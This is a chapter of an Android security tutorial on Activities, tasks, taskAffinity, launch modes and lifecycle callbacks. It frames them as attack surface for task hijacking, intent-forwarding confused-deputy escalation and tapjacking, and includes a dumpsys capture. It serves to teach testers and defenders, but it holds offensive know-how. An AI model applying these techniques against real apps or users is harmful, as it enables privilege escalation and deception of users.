









# 30 — Activities

> After this chapter you will be able to read a device's live task graph, explain exactly why an
> Activity landed in the task it landed in, prove or disprove task hijacking on the device in front
> of you instead of quoting a version number, and turn an exported Activity that forwards Intents
> into a demonstrated privilege escalation.

**Prerequisites:** [09 — Android App Internals](../09-Android-App-Internals/README.md),
[24 — IPC](../24-IPC/README.md), [25 — Binder](../25-Binder/README.md),
[26 — Intent](../26-Intent/README.md)

**Useful alongside:** [32 — Manifest](../32-Manifest/README.md) — the declaration side.
`launchMode`, `taskAffinity` and `android:exported` are each introduced here where the task graph
makes them matter; 32 is the checklist view of the same attributes, not a gate on this one.

**Applies to:** API 21 (Android 5.0) through API 35 (Android 15). Every claim about behaviour that
changed is carried in a Version Matrix (§3.12). Every measurement in this chapter was taken on a
**Redmi M2101K6P (`sweetin`), MIUI 12.5, Android 11 / API 30**, security patch 2021-12-01, and is
labelled `measured` where it appears. Anything not labelled `measured` is documented behaviour that
this chapter did not verify — the distinction is deliberate and §7.9 lists both sets explicitly.

---

## Table of Contents

1. [Introduction](#1-introduction)
2. [High-Level Architecture](#2-high-level-architecture)
3. [Deep Internal Working](#3-deep-internal-working)
4. [Source Code Walkthrough (AOSP)](#4-source-code-walkthrough-aosp)
5. [Security Perspective](#5-security-perspective)
6. [Reverse Engineering Perspective](#6-reverse-engineering-perspective)
7. [Dynamic Analysis](#7-dynamic-analysis)
8. [Static Analysis](#8-static-analysis)
9. [Examples](#9-examples)
10. [Common Interview Questions](#10-common-interview-questions)
11. [Common Mistakes](#11-common-mistakes)
12. [Hands-on Labs](#12-hands-on-labs)
13. [Summary](#13-summary)
14. [References](#14-references)

---

## 1. Introduction

### The problem that existed before Activities

Imagine a computer where every program owns the whole screen and decides for itself when to give it
up. That was the desktop model for a long time, and it works when the machine has one user, one
screen, plenty of memory, and no expectation that the machine will be interrupted by a phone call.

A phone breaks all four assumptions at once. The screen is small enough that only one thing can
usefully be visible. Memory is scarce enough that the system must be free to kill programs the user
is not looking at. And the user's attention is interrupt-driven: a call arrives, a message arrives,
the user taps a link in one app and expects to end up in another, then expects the Back button to
bring them home again.

So Android does not give an application a window and let it get on with it. It gives an application
a set of **screens** and takes over the job of deciding which one is visible, when each is
constructed, when each is destroyed, and what happens when the user presses Back. A screen, under
that arrangement, is an **Activity**.

> **Definition**
> An **Activity** is one screen of an application, together with the code that runs while that
> screen exists. It is a Java (or Kotlin) class extending `android.app.Activity`, declared in
> `AndroidManifest.xml`, whose lifetime is controlled by the operating system rather than by the
> application.

That last clause is the whole point, and it is what makes Activities a security topic rather than a
UI topic. **The application does not construct its own Activities and does not decide when they
run.** A privileged system process does — and that process will construct one on behalf of *another
application* if the manifest permits it.

### The physical analogy, and exactly where it breaks

Picture a desk with a single spike — the old paper spike that receipts get pushed onto. Each sheet
of paper is a screen. Working on something pushes a new sheet onto the spike; finishing with it
pulls the top sheet off and reveals the one underneath. The spike is the **back stack**: last on,
first off, and the Back button is the act of pulling one off.

Now picture the desk with **several spikes**, and only one of them in front of you at a time. Each
spike holds a coherent piece of work — "the thing I was doing in my email app", "the thing I was
doing in my banking app". Switching apps swings a different spike into view, with all its sheets
still stacked exactly as you left them. A spike is a **task**.

> **Definition**
> A **task** is a stack of Activities that the user perceives as a single piece of work. The
> Activities in a task are ordered; the topmost is the one on screen; pressing Back pops the top
> one. A device has many tasks and shows one at a time. The Recents (Overview) screen is a picture
> of the tasks, not of the apps.

Here is where the analogy breaks, and this break is the single most important sentence in this
chapter:

> **Warning**
> **A task is not an app.** Sheets on one spike can come from different applications. The user
> perceives a task as "the app I am in", and that perception is not enforced by anything. Two
> packages' Activities can sit in one task, and the Back button will walk the user from one
> package's screen to another package's screen with no visual seam and no permission check. This is
> not a bug; it is how a share sheet, a photo picker, or an OAuth consent screen feels smooth. It
> is also, precisely, the attack surface this chapter is about.

I did not take that on faith. §3.8 contains a `dumpsys` capture, taken on the device described at the
top of this chapter, of one task containing one Activity from an attacker's package and one from a
victim's.

### What would break if Activities did not exist

Strip the concept out and ask what you would have to rebuild:

| Removed | What breaks |
|---|---|
| System-owned lifecycle | Apps would have to guess when to release memory. The system could not kill a background app without corrupting it, so the system could not kill background apps at all, so the phone would run out of memory. |
| The task/back stack model | Back would have no meaning across app boundaries. Tapping a link in a chat app and pressing Back would not return you to the chat. |
| Declarative screen entry points | One app could not ask another to "show me a photo picker" without a bespoke, pre-agreed protocol. The entire implicit-Intent ecosystem — share sheets, view handlers, deep links — would not exist. |
| A privileged starter | Any app could construct any other app's screen in its own process, with its own permissions. The app sandbox ([21](../21-App-Sandbox/README.md)) would be decorative. |

The fourth row is the one to keep hold of. **Starting an Activity is an IPC operation**, not a
function call. Your app asks `system_server` to start a component; `system_server` decides whether
you may; and if the component belongs to another application, it runs in that application's process
with that application's uid, permissions, and data.

### The three questions this chapter answers

Everything here hangs off three questions. If you can answer all three about any Activity, you can
assess any Activity-related finding.

1. **Which task will it land in, and why?** — the task model (§3.2–3.5). This is genuinely hard,
   most published write-ups get parts of it wrong, and the errors are systematic: people believe
   `singleTask` always creates a new task (it does not), that `taskAffinity` decides placement on
   every start (it does not — it is consulted only when a task is being chosen or created), and
   that an Activity always runs in its own app's task (it does not).
2. **What can it believe about who started it?** — caller identity for an Activity (§3.6). Almost
   always: nothing. And unlike a Service, an Activity cannot fall back on Binder's identity stamp.
3. **What does the user believe they are looking at, and is that belief true?** — task hijacking
   (§5.2) and tapjacking (§5.5). Both are attacks on the *user's* model of the screen rather than on
   the *system's* model, which is why both survive a perfectly correct permission architecture.

### What this chapter deliberately does not cover

The repository divides this material on purpose. Duplicating it would make both halves worse.

| Topic | Owner | Why the split is there |
|---|---|---|
| The **Intent** as a message: its fields, the resolution algorithm, and the intent-redirection primitive | [26-Intent](../26-Intent/README.md) §3.4, §5.2 | 26 owns the message and how the platform routes it. This chapter owns the **component that receives it** — the Activity, its task, and the privilege it lends when it forwards. Where 26 explains *how a redirect resolves*, §5.3 here explains *why an Activity is the thing worth redirecting through*. |
| The **manifest audit**: every `<activity>` attribute, the `targetSdk` export matrix, `manifest-audit.py` | [32-Manifest](../32-Manifest/README.md) §3.6 | 32 audits the **declaration**, statically, from an APK on disk. This chapter contributes the **runtime task view**, which no manifest can show — a manifest cannot contain a task, because tasks are made by starts. |
| What a laundered URI **grant** is worth, and provider exploitation | [27-ContentProviders](../27-ContentProviders/README.md) §5.4 | 27 owns the consequence — the data that leaves. This chapter owns the **deputy**: the Activity that holds the privilege and gives it away. §5.3 stops at the moment the grant is issued. |
| The **sandbox** that makes "another app's data" meaningful | [21-App-Sandbox](../21-App-Sandbox/README.md) | 21 owns uid isolation and SELinux domains. This chapter assumes them. |
| **Binder's identity stamp** — `getCallingUid()`, and why it is unforgeable | [25-Binder](../25-Binder/README.md) | 25 owns the mechanism. §3.6 here owns the consequence for Activities specifically, which is that you cannot use it. |
| Broadcast delivery, ordering, sticky broadcasts | [29-BroadcastReceivers](../29-BroadcastReceivers/README.md) | Different component, different delivery policy. |
| Bound and started **Services**, including overlay services' lifecycle | [28-Services](../28-Services/README.md) | §5.5 uses a Service to hold an overlay window and says why, without restaging Service lifecycle. |
| Fragments — the *sub*-screen model | [31-Fragments](../31-Fragments/README.md) §3.1 | A Fragment is not an Activity and has no task. 31 owns the Fragment layer, including fragment injection — the class where an exported Activity lets a caller choose which Fragment appears inside it. |

---

## 2. High-Level Architecture

### 2.1 The four nouns, and how they nest



What you are looking at is a real capture, redrawn. Three tasks exist at once; the device shows one.
Task #291 is what everybody pictures when they hear "an app": one package, its own Activities,
stacked. Task #3 is the launcher, which declares `android:taskAffinity=""` and therefore has no
affinity string at all.

**Task #292 is the one to stare at.** Its root is an attacker-controlled Activity (red). The Activity
above it (amber) belongs to the *victim's* package and is running as the victim's uid, in the
victim's process, with the victim's permissions — inside a task whose affinity, whose Recents entry,
and whose root belong to the attacker. Nothing was exploited to produce that. One app called
`startActivity()` on another app's exported Activity without setting `FLAG_ACTIVITY_NEW_TASK`. §3.8
has the capture and the command.

Four nouns, nested:

| Noun | What it is | Where it lives | Lifetime |
|---|---|---|---|
| **Activity** | a Java object in the *app's* process, extending `android.app.Activity` | app process | created and destroyed by the system |
| **ActivityRecord** | `system_server`'s bookkeeping object for one Activity instance | `system_server` (ATMS) | outlives the Java object across process death |
| **Task** | an ordered stack of `ActivityRecord`s | `system_server` (ATMS) | outlives every process in it; survives in Recents |
| **taskAffinity** | a *string* naming which task an Activity prefers | computed at parse time, stored on `ActivityInfo` | fixed for the install |

> **Mental Model**
> An `Activity` object is the app's copy. An `ActivityRecord` is the system's copy. They can
> disagree, and every interesting Activity bug lives in the gap: the system can destroy your Java
> object and keep the `ActivityRecord`, then rebuild the object from a `Bundle` later. Anything you
> believed in memory is gone; anything the *system* remembers — including which task you are in and
> what Intent started you — comes back. Attackers care about the second set.

### 2.2 What actually happens when you call `startActivity`



Read the diagram twice, because two facts in it explain most of the chapter.

**First:** there are *two* Binder transactions, not one. The caller's transaction ends inside
`system_server`. A *separate*, later transaction — originating from `system_server`, not from the
caller — delivers the launch to the target. The kernel's identity stamp belongs to the first
transaction and is long gone by the time the second one lands. That is why an Activity cannot use
`Binder.getCallingUid()` to learn who started it, and why the two values come back identical when
you measure it (§3.6, and `scripts/activity-trace.js` prints them side by side so you can watch it
happen).

**Second:** the export and permission check happens *at the `ActivityStarter` step*, using an
identity the caller could not forge. That check is genuinely strong. It is also the *only* check the
system makes on your behalf, and it answers exactly one question — "is this component exported, and
does the caller hold the declared permission?" It cannot answer "should *this* caller be allowed to
do *this*", because it does not know what "this" is.

### 2.3 The trust boundary



The boundary that matters is the one between the untrusted box and the victim box, and it is drawn
by `ActivityStarter` in the middle. Arrow 2' is that boundary working perfectly: a non-exported
Activity is refused, and §5.3 has the exact `SecurityException` from the device to prove it.

Arrows 3 through 5' are the boundary being walked around rather than broken. Nothing is exploited.
The malicious app persuades a component *inside* the victim box to make the call for it, and
`ActivityStarter` — correctly, by its own rules — permits it, because at that moment the caller
really is the victim. That is the **confused deputy**, and the Activity in amber is the deputy. It
is this chapter's second signature subject.

Arrows 6 and 7 leave `ActivityTaskManagerService` entirely and go through
`WindowManagerService`. Tapjacking is a different subsystem with a different mitigation, which is why
§5.5 is a separate section rather than a subsection of the task material.

### 2.4 Where the two signature attacks sit



This is the decision tree the rest of the chapter fills in.one of the five boxes is blue:
task hijacking in its classic form was **measured as blocked** on the device this chapter was written
against, and §5.2 says so plainly rather than repeating a claim that has aged badly. The box directly
below it — mixed-package tasks — was measured as **working**, and it is the one most write-ups do not
mention at all.

---

## 3. Deep Internal Working

### 3.1 The lifecycle, and which parts an attacker controls

Before the task model, the lifecycle, because every later section refers to it.



| Callback | When | What an attacker gets from it |
|---|---|---|
| `onCreate(Bundle)` | the instance is being constructed | The Intent is available via `getIntent()`. **This is where attacker-controlled input first lands.** The `Bundle` may also be attacker-influenced if the process was killed and restored. |
| `onStart` / `onResume` | becoming visible / interactive | Nothing directly, but `onResume` is where defensive checks belong, because it runs every time the screen returns to the foreground — including after an overlay was raised. |
| `onNewIntent(Intent)` | an **existing** instance is being reused | A second, *different* attacker-controlled Intent. See the trap below. |
| `onPause` / `onStop` | losing focus / going invisible | The moment a screenshot is taken for Recents. `FLAG_SECURE` decides whether that snapshot contains anything. |
| `onSaveInstanceState(Bundle)` | before a possible kill | Whatever the app writes here is serialised to disk by the system. Secrets written here leak to `/data/system_ce/.../snapshots` and to task persistence. |
| `onActivityResult(int,int,Intent)` | a started Activity returned | **A third attacker-controlled Intent**, and the one developers validate least. §5.6. |
| `onDestroy` | going away | — |

> **Warning — the `onNewIntent` / `getIntent()` trap**
> When the system reuses an instance it calls `onNewIntent(newIntent)`. It does **not** update what
> `getIntent()` returns. Unless the Activity calls `setIntent(newIntent)` itself, `getIntent()` keeps
> returning the *original* Intent forever.
>
> The bug class this produces is nasty and common: an Activity validates `getIntent()` in `onCreate`,
> caches "this caller is authorised", and later acts on data from `onNewIntent`. The validated Intent
> and the acted-upon Intent are different objects. Any launch mode that reuses instances —
> `singleTop`, `singleTask`, `singleInstance`, or a caller setting `FLAG_ACTIVITY_SINGLE_TOP` — turns
> this into a reachable bypass. `scripts/activity-trace.js` prints a warning on every `onNewIntent`
> for exactly this reason.

### 3.2 What a task actually is

> **Definition**
> A **task** is an object of class `Task` inside `system_server`'s
> `ActivityTaskManagerService`. It holds an ordered list of `ActivityRecord`s, an integer id, a
> **task affinity string**, a base `Intent`, and a *real activity* (the component the task resolves
> to when the user picks it out of Recents).

Three properties surprise people, and all three matter:

**A task outlives every process in it.** Kill an app and its task remains, sitting in Recents,
holding the affinity and the base Intent. Tapping it in Recents restarts the process and rebuilds
the Activities. That is why an attacker's "parked" task is a durable thing rather than something
that evaporates.

**A task is created by a start, not by a declaration.** No manifest attribute creates a task. That is
the precise reason a manifest scanner cannot answer any of the questions in this chapter and why
`scripts/task-affinity-map.py` exists.

**A task's identity comes from its root.** The Activity at index 0 is the root; the task's affinity
and its Recents entry are normally derived from it. `android:relinquishTaskIdentity="true"` moves
that identity to the next Activity, which is a genuinely obscure attribute worth grepping for.

Here is a real task, captured on the device, with the fields that matter annotated:

```text
# host — adb shell "dumpsys activity activities"
# measured — Redmi M2101K6P, Android 11 / API 30
    * Task{e002411 #258 visible=true type=standard mode=fullscreen translucent=true
           A=10196:com.android.chrome U=0 StackId=258 sz=1}
                                        ^^^^^^^^^^^^^^^^^^^^^^^  the task's AFFINITY
      affinity=10196:com.android.chrome
      intent={act=android.intent.action.MAIN cat=[android.intent.category.LAUNCHER]
              flg=0x10000000 pkg=com.android.chrome
              cmp=com.android.chrome/com.google.android.apps.chrome.Main}
      mActivityComponent=com.android.chrome/org.chromium.chrome.browser.ChromeTabbedActivity
      rootWasReset=false mNeverRelinquishIdentity=true mReuseTask=false
      Activities=[ActivityRecord{1ea7c38 u0 com.android.chrome/...Main t258}]
      taskId=258 stackId=258
      * Hist #0: ActivityRecord{1ea7c38 u0 com.android.chrome/...Main t258}
          packageName=com.android.chrome processName=com.android.chrome
          launchedFromUid=1000 launchedFromPackage=android
          rootOfTask=true
          taskAffinity=10196:com.android.chrome
          occludesParent=true noDisplay=false immersive=false launchMode=2
                                                              ^^^^^^^^^^^^  2 = singleTask
```

| Field | Meaning | Why a tester reads it |
|---|---|---|
| `#258` | task id | The join key for everything else. `t258` on an `ActivityRecord` says which task it is in. |
| `A=` / `affinity=` | the task's **effective** affinity | The heart of §3.7. Note the `10196:` prefix — that is not part of any manifest. |
| `sz=` | number of Activities in the task | `sz` greater than 1 with more than one package is the mixed-package finding. |
| `Hist #n` | one Activity, `#0` is the root | The stack, printed bottom-up. |
| `launchedFromUid` / `launchedFromPackage` | who asked for this start | **The most useful forensic field in the dump.** `system_server` recorded it at start time; the app cannot see it, but you can. |
| `launchMode=` | the resolved launch mode, as an int | 0 standard, 1 singleTop, 2 singleTask, 3 singleInstance, 4 singleInstancePerTask. |
| `mNeverRelinquishIdentity` | inverse of `relinquishTaskIdentity` | `false` here means the task's identity can move to a later Activity. |

> **Pentester's Note**
> `launchedFromPackage` is the closest thing to caller attribution that exists for an Activity, and
> it lives in `system_server` where the app cannot reach it. You can read it from `adb shell`; the
> app being attacked cannot. When you are reconstructing "how did the user get to this screen", this
> field is the answer and nothing in the app will tell you.

